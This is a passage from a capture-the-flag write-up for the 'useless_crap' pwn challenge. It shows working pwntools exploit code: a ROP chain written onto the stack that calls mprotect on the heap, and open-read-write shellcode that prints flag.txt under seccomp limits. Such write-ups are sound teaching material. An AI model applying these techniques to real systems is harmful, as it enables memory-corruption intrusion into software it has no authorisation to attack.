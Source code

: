 Now with all the leaks, we can begin doing the final part of the  exploit. Due to seccomp rules, we can only do a open read write RCE. I did this via shellcoding on the heap, so my first goal was to use  mprotect to make the heap executable. I did this part differently from  the [author's solution](https://github.com/tghack/tg20hack/blob/master/pwn/useless_crap/writeup.md), in which he used a file structure attack to help him lead into setcontext, which will allow him to do a stack pivot.

 I briefly thought about file structure, but since I'm not very good at  it, I decided to look for other solutions. One idea I had was to write  the ROP chain with do_write() 8 bytes at a time, slowly writing down to  the return address of do_write(). I never did this before, but  conceptually, it sounded fine as long as not too much writing activity  is happening on the stack near that region. In fact, only one address  that was part of the ROP chain was overwritten when I returned back to  the caller of do_write(), so I readjusted my ROP chain to ignore the  content there (which went into the r15 register during the ROP).  Generally, the stack address holding the return of the do_write()  function should remain the same in terms of its offset to the stack  address leaked by environ; the stored return address can be found with  the info frame command. The following snippet shows this part (note  that I placed the shellcode on the heap before this part of the code,  but I will explain the shellcode part afterwards).


```python
 targetreturn = stackleak - 288
 log.info("general target to overwrite: " + hex(targetreturn))
 \#libc gadgets
 poprdi = libc.address + 0x0000000000021882 #: pop rdi; ret;
 poprsi = libc.address + 0x0000000000022192 #: pop rsi; ret;
 poprdx = libc.address + 0x0000000000001b9a #: pop rdx; ret;
 poprsir15 = libc.address + 0x0000000000021880 #: pop rsi; pop r15; ret;
 targetheap = heapleak-4704
 write(targetreturn+64, hex(targetheap))
 write(targetreturn+56, hex(libc.symbols['mprotect']))
 write(targetreturn+48, hex(7))
 write(targetreturn+40, hex(poprdx))
 write(targetreturn+32, hex((heapleak-0x2000)>>12<<12))
 write(targetreturn+24, hex(poprdi))
 write(targetreturn+16, "0xdeadbabe")
 write(targetreturn+8, "0x12000")
 write(targetreturn, hex(poprsir15))
```

 As for the shellcode, we have to follow the seccomp rules. Since you  can only read from stdin, I had to close stdin (we don't need it anymore once we hit the shellcode), open the flag file (which will be opened at fd 0 now), and then read from that location. Then we just write it out to stdout.


```python
 s64 = shellcraft.amd64.close(0)
 s64 += shellcraft.amd64.open('flag.txt')
 s64 += shellcraft.amd64.linux.syscall("SYS_read", 0, "rsp", 0xff) #cause you can only read from fd 0
 s64 += shellcraft.amd64.linux.syscall("SYS_write", 1, "rsp", 0x20)
 s64 += shellcraft.amd64.linux.syscall("SYS_exit_group", 0)
 shellcode = asm(s64)
 writef(shellcode, 'y')
```
